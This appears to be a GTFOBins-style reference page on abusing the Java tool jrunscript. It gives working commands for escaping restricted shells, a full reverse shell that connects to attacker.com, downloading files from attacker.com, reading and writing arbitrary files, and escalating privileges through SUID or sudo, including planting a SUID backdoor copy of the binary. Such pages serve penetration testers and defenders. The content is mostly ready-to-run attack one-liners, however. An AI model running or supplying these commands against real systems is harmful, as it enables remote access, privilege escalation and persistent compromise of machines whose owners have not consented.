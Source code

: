 # GTFOBin: jrunscript

This tool is installed starting with Java SE 6.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
jrunscript -e 'var host='"'""$RHOST""'"'; var port='"$RPORT"';
var p=new java.lang.ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
var s=new java.net.Socket(host,port);
var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){
while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();po.flush();
java.lang.Thread.sleep(50);
try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
URL=http://attacker.com/file_to_get
LFILE=file_to_save
jrunscript -e "cp('$URL','$LFILE')"
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
jrunscript -e 'var fw=new java.io.FileWriter("./file_to_write"); fw.write("DATA"); fw.close();'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
jrunscript -e 'br = new BufferedReader(new java.io.FileReader("file_to_read")); while ((line = br.readLine()) != null) { print(line); }'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This has been found working in macOS but failing on Linux systems.

```
sudo install -m =xs $(which jrunscript) .

./jrunscript -e "exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)')"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
```